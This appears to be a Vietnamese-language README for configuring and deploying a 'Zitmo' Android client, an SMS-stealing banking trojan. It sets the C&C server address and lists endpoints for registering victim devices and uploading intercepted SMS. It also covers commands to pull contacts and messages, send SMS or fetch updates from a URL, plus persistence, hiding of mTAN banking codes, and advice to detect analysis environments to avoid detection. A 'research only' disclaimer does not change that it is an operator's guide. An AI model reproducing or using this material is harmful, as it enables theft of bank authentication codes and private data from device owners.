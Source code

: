 # Cấu hình Zitmo Client

## Cấu hình server C&C

Để kết nối client Zitmo với máy chủ C&C, hãy thực hiện các bước sau:

1. Chỉnh sửa cấu hình mặc định trong file `ZitmoUtils.java`:

```java
private static final String SERVER_URL_DEFAULT = "http://YOUR_SERVER_IP:5000";
```

Thay `YOUR_SERVER_IP` bằng địa chỉ IP hoặc tên miền của máy chủ C&C. Mặc định, ứng dụng sẽ kết nối đến cổng 5000.

## Các endpoint API

Client Zitmo được cấu hình để giao tiếp với server thông qua các endpoint sau:

### 1. Đăng ký thiết bị
**Endpoint**: `/register`  
**Method**: POST  
**Dữ liệu gửi**:
```json
{
    "device_id": "unique_device_identifier",
    "device_info": "thông tin thiết bị (model, OS version...)",
    "phone_number": "số điện thoại của thiết bị",
    "operator": "nhà mạng di động"
}
```

### 2. Gửi SMS bị chặn
**Endpoint**: `/intercepted_sms`  
**Method**: POST  
**Dữ liệu gửi**:
```json
{
    "device_id": "unique_device_identifier",
    "sender": "người gửi SMS",
    "message": "nội dung SMS",
    "timestamp": "thời gian nhận (YYYY-MM-DD HH:MM:SS)"
}
```

### 3. Ping và nhận lệnh mới
**Endpoint**: `/ping`  
**Method**: POST  
**Dữ liệu gửi**:
```json
{
    "device_id": "unique_device_identifier"
}
```

### 4. Báo cáo thực thi lệnh
**Endpoint**: `/command_executed`  
**Method**: POST  
**Dữ liệu gửi**:
```json
{
    "device_id": "unique_device_identifier",
    "command_id": command_id,
    "result": "kết quả thực thi lệnh"
}
```

## Các loại lệnh hỗ trợ

Client Zitmo có thể xử lý các loại lệnh sau từ máy chủ C&C:

| Loại lệnh   | Mô tả             | Dữ liệu lệnh                                            |
|-------------|-------------------|---------------------------------------------------------|
| get_contacts | Lấy danh bạ       | `{}`                                                    |
| get_sms     | Lấy tin nhắn      | `{"limit": số_lượng}`                                   |
| send_sms    | Gửi tin nhắn      | `{"to": "người_nhận", "message": "nội_dung"}`          |
| update      | Cập nhật ứng dụng | `{"url": "đường_dẫn_tải"}`                             |
| uninstall   | Gỡ cài đặt        | `{}`                                                    |

## Chu kỳ hoạt động

- Ping server: 15 phút/lần để báo cáo trạng thái và nhận lệnh mới
- Chặn SMS: Ngay lập tức khi có SMS mới
- Khởi động tự động: Khi thiết bị khởi động hoặc khi ứng dụng được cập nhật
- Duy trì hoạt động: Sử dụng foreground service, wakeLock và AlarmManager để đảm bảo hoạt động liên tục

## Xây dựng và Triển khai

1. Tạo project Android Studio từ mã nguồn đã cung cấp
2. Thêm file layout `activity_main.xml` và icon `ic_secure.xml`
3. Xây dựng APK thông qua Android Studio: Build > Build Bundle(s) / APK(s) > Build APK(s)
4. APK sẽ được tạo trong thư mục `app/build/outputs/apk/debug/`
5. Cài đặt APK trên thiết bị Android đích

## Lưu ý bảo mật

Mã nguồn này chỉ dành cho mục đích nghiên cứu và giáo dục. Trong môi trường thực tế, nên thêm các cơ chế bảo mật sau:

1. HTTPS cho tất cả giao tiếp API
2. Xác thực tin nhắn và xác thực endpoint
3. Mã hóa dữ liệu được lưu trữ
4. Phát hiện máy ảo và môi trường phân tích để tránh phát hiện

## Chỉnh sửa cấu hình khác

- **Ẩn SMS**: Chỉnh sửa `ZitmoUtils.isHideSMSEnabled()` để kiểm soát việc ẩn SMS chứa mTAN
- **Cấu hình SMS**: Chỉnh sửa `containsSensitiveContent()` trong `SMSReceiver` để điều chỉnh các từ khóa dùng để phát hiện SMS nhạy cảm
- **Thông báo**: Chỉnh sửa thông báo hiển thị trong `createNotification()` để phù hợp với trường hợp sử dụng cụ thể